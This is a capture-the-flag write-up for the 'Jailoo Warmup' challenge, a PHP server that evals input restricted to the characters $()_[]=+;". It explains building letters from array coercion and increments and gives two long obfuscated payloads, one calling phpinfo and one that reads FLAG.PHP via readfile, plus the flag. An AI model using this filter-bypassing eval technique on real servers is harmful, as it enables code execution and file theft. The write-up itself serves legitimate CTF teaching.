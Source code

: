 # JAILOO WARMUP

We are only allowed to use these characters: $()_[]=+;". 

Webserver evals our input.

We also have a 2000 character cap (found by experimenting)

Found a pretty good resource on this: https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Main idea is to
- use underscores for variables names
- use $_=([]."")[([]==[])+([]==[])+([]==[])] to get a lowercase a
- use $_=([]."")[[].[]+[][[]]] to get an uppercase A
- use [varname]++ to increase the ascii value for each of these to get all ascii letters
- take a string and join our characters one by one with .=
- for other characters, we can just join then with .= "char", assuming it is allowed.

Our first goal is to get phpinfo, to see if there are any disabled functions:

Payload:

$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$__="";$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$____;$_____++;$_____++;$__.=$_____;$____=$___;$____++;$____++;$__.=$____;$__.=$_____;$____++;$__.=$____;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$__.=$___;$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$__();

We can see that useful functions which would have allowed us to read from the file like file_get_contents are disabled. However, readfile() is not disabled, so we can use that. We can then use printf() to output that to us.

Our final payload will then eval to: printf(readfile("FLAG.PHP"))

Final payload:

$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$__="";$___=$_;$___++;$___++;$___++;$____=$___;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$____;$_____++;$_____++;$__.=$_____;$_____++;$_____++;$__.=$_____;$_____=$___;$_____++;$_____++;$_____++;$__.=$_____;$_____++;$_____++;$_____++;$_____++;$_____++;$__.=$_____;$____++;$____++;$____++;$____++;$____++;$____++;$__.=$____;$__.=$___;$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$_++;$_++;$_____="";$______=$_;$______++;$______++;$______++;$_______=$______;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$_______++;$________=$_______;$________++;$________++;$_____.=$________;$_____.=$_;$_=([]."")[([]==[])+([]==[])+([]==[])];$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_++;$_++;$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_++;$_++;$_++;$_____.=$_;$_=([]."")[([]==[])+([]==[])+([]==[])];$_++;$_++;$_++;$_++;$_____.=$_;$_=([]."")[[].[]+[][[]]];$_______="";$________=$_;$________++;$________++;$________++;$________++;$________++;$_______.=$________;$_________=$________;$_________++;$_________++;$_________++;$_________++;$_________++;$_________++;$_______.=$_________;$_______.=$_;$_________=$________;$_________++;$_______.=$_________;$_______.=".";$_________++;$__________=$_________;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$__________++;$_______.=$__________;$_______.=$_________;$_______.=$__________;$__($_____($_______));

#### Flag: FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}


(need to view source to see it)
